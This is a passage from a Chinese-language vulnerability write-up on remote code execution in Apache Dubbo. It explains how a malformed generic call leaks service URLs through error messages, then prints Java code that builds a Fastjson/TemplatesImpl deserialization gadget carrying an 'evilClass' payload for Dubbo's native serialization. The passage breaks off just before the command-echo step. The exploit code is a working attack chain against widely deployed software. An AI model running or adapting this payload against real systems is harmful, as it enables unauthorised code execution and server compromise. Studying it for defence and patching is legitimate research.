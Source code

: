 那么完整的`MetadataService`服务URL就是：

```java
dubbo://IP:PORT/demo-provider/org.apache.dubbo.metadata.MetadataService:1.0.0
```

那么如何获取Dubbo的应用名呢？答案是利用报错。Dubbo在处理客户端的泛化调用时，如果用户传入的是错误的URL，那么就会把所有服务端存在的正确的完整服务URL拼接一个`org.apache.dubbo.rpc.RpcException`对象，这个对象的值会发送给客户端。因此我们只需要先进行一次错误的泛化调用就可以获取到正确的URL。

# 代码执行

漏洞利用的具体方法可以看我之前写的另一篇文章：[https://xz.aliyun.com/t/12396](https://xz.aliyun.com/t/12396 "https://xz.aliyun.com/t/12396")，文章中讲解了利用Fastjson2+TemplatesImpl实现Dubbo3.x原生环境的任意代码执行。同时对于其中fastjson2的部分，只需要略作修改，就可以完成Fastjson的利用，从而实现全版本Dubbo代码执行，相关内容可见y4tacker师傅写的这篇文章：[https://y4tacker.github.io/2023/04/26/year/2023/4/FastJson与原生反序列化-二/#FastJson与原生反序列化-二](https://y4tacker.github.io/2023/04/26/year/2023/4/FastJson与原生反序列化-二/#FastJson与原生反序列化-二 "https://y4tacker.github.io/2023/04/26/year/2023/4/FastJson与原生反序列化-二/#FastJson与原生反序列化-二")。同时Dubbo3.x也有fastjson依赖，因此可以直接使用fastjson这条链完成通杀。

核心代码：

```java
public static Object getObject() throws Exception {

    ClassPool pool = ClassPool.getDefault();
    CtClass clazz = pool.get("evilClass");
    byte[][] bytes = new byte[][]{clazz.toBytecode()};
    TemplatesImpl templates = TemplatesImpl.class.newInstance();
    setValue(templates, "_bytecodes", bytes);
    setValue(templates, "_name", "");
    setValue(templates, "_tfactory", null);


    JSONArray jsonArray = new JSONArray();
    jsonArray.add(templates);

    BadAttributeValueExpException val = new BadAttributeValueExpException(null);
    setValue(val,"val",jsonArray);

    HashMap hashMap = new HashMap();
    hashMap.put(templates,val);

    NativeJavaSerialization nativeJavaSerialization = new NativeJavaSerialization();
    UnsafeByteArrayOutputStream unsafeByteArrayOutputStream = new UnsafeByteArrayOutputStream();
    ObjectOutput o = nativeJavaSerialization.serialize(null, unsafeByteArrayOutputStream);
    o.writeObject(hashMap);
    return unsafeByteArrayOutputStream.toByteArray();
}
```

# 命令回显

已经存在代码执行，那下一步就是需要研究如何让代码执行变成命令执行并回显。
